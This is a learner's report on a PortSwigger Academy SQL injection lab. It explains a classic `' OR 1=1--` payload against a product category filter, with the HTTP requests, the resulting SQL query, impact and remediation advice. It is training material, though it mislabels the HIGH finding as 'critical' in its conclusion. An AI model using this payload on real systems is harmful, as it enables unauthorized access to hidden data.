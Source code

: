 # Lab01: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Target:**  PortSwigger Academy - SQL injection vulnerability in WHERE clause  
**Lab URL:** `https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data`  
**Date:** August 13, 2025  
**Tester:** piz1va0n  
**Duration:** -  

---

## Executive Summary

**Vulnerabilities Found:** 1 Total  
**Risk Breakdown:** 0 Critical | 1 High | 0 Medium | 0 Low

**Key Issues:**

- SQL injection in product category filter allows unauthorized data access

**Overall Risk:**  HIGH 

---

## Scope and Methodology

### Test Scope

**In-Scope Targets:**

- Primary Lab URL: `https://0a8b00f2049c8b5e82e4c7a5009300b2.web-security-academy.net/`
- All web application endpoints and parameters
- Product filtering functionality

### Testing Methodology

**Standards and Frameworks:**

- OWASP Testing Guide v4.2
- PortSwigger Academy Guide

**Testing Phases:**

1. **Reconnaissance** - Application mapping and parameter identification
2. **Vulnerability Discovery** - SQL injection testing on identified parameters
3. **Exploitation** - Proof-of-concept development
4. **Impact Assessment** - Technical impact evaluation
5. **Documentation** - Documentation and remediation guidance

**Tools and Techniques:**

- Burp Suite Community Edition (request interception)
- Browser Developer Tools (response analysis)
- Manual payload crafting and testing

---

## OWASP Top 10 Results

| Category | Finding | Risk | Status |
|----------|---------|------|---------|
| A01: Broken Access Control | [Finding name] | - | - |
| A02: Cryptographic Failures | [Finding name] | - | - |
| A03: Injection | SQL injection | HIGH | ✓ |
| A04: Insecure Design | [Finding name] | - | - |
| A05: Security Misconfiguration | [Finding name] | - | - |
| A06: Vulnerable Components | [Finding name] | - | - |
| A07: Authentication Failures | [Finding name] | - | - |
| A08: Software/Data Integrity | [Finding name] | - | - |
| A09: Logging/Monitoring | [Finding name] | - | - |
| A10: SSRF | [Finding name] | - | - |

---

## Detailed Findings

### HIGH: SQL Injection in Product Filter

**OWASP Category:** A03 - SQL Injection  
**CVSS Score:** 7.5  

|||
|-|-|
| Attack Vector (AV): | Network(N) |
| Attack Complexity (AC): | Low(L) |
| Privileges Required (PR): | None(N) |
| User Interaction (UI): | None(N) |
| Scope (S): | Unchange(U) |
| Confidentiality (C): | High(H) |
| Integrity (I): | None(N) |
| Availability (A): | None(N) |

---

**Location:** `https://0a5a007503ac8026bf82615200d30072.web-security-academy.net/filter?category`

**Description:**
The application's product category filter is vulnerable to SQL injection. The category parameter in the WHERE clause is not properly sanitized, allowing attackers to manipulate the SQL query structure. This enables retrieval of hidden products and potentially sensitive database information.

**Proof of Concept:**

**Original Request (Normal):**

```http
GET /filter?category=Gifts  

Host: 0a5a007503ac8026bf82615200d30072.web-security-academy.net  

```

**Malicious Request (SQL Injection):**

```http
GET /filter?category=Gifts'+OR+1=1-- 

Host: 0a5a007503ac8026bf82615200d30072.web-security-academy.net

```

**Payload Analysis:**

- `Gifts'` - Closes the original string parameter
- `OR 1=1` - Always true condition that bypasses the WHERE filter  
- `--` - SQL comment to ignore remaining query

**Expected SQL Query Behavior:**

```sql
-- Original query (secure)
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

-- Injected query (vulnerable)  
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
-- Everything after -- is commented out
```

**Impact:**

- **Data Exposure:** Access to unreleased/hidden products that should not be visible
- **Business Logic Bypass:** Circumvention of application access controls
- **Information Disclosure:** Potential access to sensitive product data, pricing, or inventory information

**Fix:**

- **Immediate:** Implement parameterized queries/prepared statements
- **Use Object Relational Mapping(ORM)** Use ORM query-building APIs instead of raw SQL strings.
- **Validate Inputs** Check that the data fits expected patterns.

**Evidence:**
*Normal category filter shows only 3 products*
![alt text](LAB01-img/image.png)

*SQL injection payload reveals >12 products including hiddens*
![alt text](LAB01-img/image-1.png)

---

## Conclusion

### Assessment Summary

This penetration test successfully identified a **critical SQL injection vulnerability** in the PortSwigger Academy lab application's product filtering functionality. The vulnerability allows unauthorized access to hidden product data through manipulation of the `category` parameter in the WHERE clause of the underlying SQL query.

## Lab Learning Summary

**Skills Practiced:**

- Manual SQL injection identification and exploitation
- WHERE clause manipulation techniques  
- Boolean-based SQL injection testing
- SQL comment injection (`--`) for query termination

**Key Takeaways:**

- Always test input parameters with SQL metacharacters first (`'`, `"`, `;`)
- The `OR 1=1` condition is effective for bypassing WHERE filters
- SQL comments (`--`, `/* */`) are crucial for ignoring unwanted query parts
- Comparing response differences helps confirm successful injection
- Even simple SQL injection can lead to significant data exposure

**Technical Learning:**

- Understanding how user input flows into SQL WHERE clauses
- Recognizing the difference between filtered and unfiltered results
- Importance of parameterized queries for prevention
  